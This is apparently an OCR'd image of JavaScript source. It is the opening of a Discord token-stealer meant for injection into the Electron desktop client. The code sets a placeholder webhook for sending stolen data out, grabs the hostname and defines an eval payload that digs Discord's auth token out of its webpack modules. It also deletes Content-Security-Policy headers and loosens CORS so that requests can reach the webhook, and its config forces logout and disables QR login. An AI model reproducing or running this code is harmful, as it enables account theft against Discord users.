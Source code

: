 const fs = require('fs');
const path = require('path');
const {
    BrowserWindow,
    session
} = require('electron')
const querystring = require('querystring');
const os = require('os')
var webhook = "%WEBHOOK_LINK%";
const computerName = os.hostname();
const discordInstall = `${__dirname}`
const EvalToken = `for(let a in window.webpackJsonp?(gg=window.webpackJsonp.push([[],{get_require:(a,b,c)=>a.exports=c},[["get_require"]]]),delete gg.m.get_require,delete gg.c.get_require):window.webpackChunkdiscord_app&&window.webpackChunkdiscord_app.push([[Math.random()],{},a=>{gg=a}]),gg.c)if(gg.c.hasOwnProperty(a)){let b=gg.c[a].exports;if(b&&b.__esModule&&b.default)for(let a in b.default)"getToken"==a&&(token=b.default.getToken())}token;`

String.prototype.insert = function (index, string) {
    if (index > 0) {
        return this.substring(0, index) + string + this.substr(index);
    }
    return string + this;
};

const config = {
    "logout": "instant",
    "logout-notify": "true",
    "init-notify": "true",
    "embed-color": 3447704,
    "disable-qr-code": "true"
}

session.defaultSession.webRequest.onHeadersReceived((details, callback) => {
    if (details.url.startsWith(webhook)) {
        if (details.url.includes("discord.com")) {
            callback({
                responseHeaders: Object.assign({
                    'Access-Control-Allow-Headers': "*"
                }, details.responseHeaders)
            });
        } else {
            callback({
                responseHeaders: Object.assign({
                    "Content-Security-Policy": ["default-src '*'", "Access-Control-Allow-Headers '*'", "Access-Control-Allow-Origin '*'"],
                    'Access-Control-Allow-Headers': "*",
                    "Access-Control-Allow-Origin": "*"
                }, details.responseHeaders)
            });
        }
    } else {
        delete details.responseHeaders['content-security-policy'];
        delete details.responseHeaders['content-security-policy-report-only'];
        callback({
            responseHeaders: {
                ...details.responseHeaders,
                'Access-Control-Allow-Headers': "*"
            }
        })
    }
})
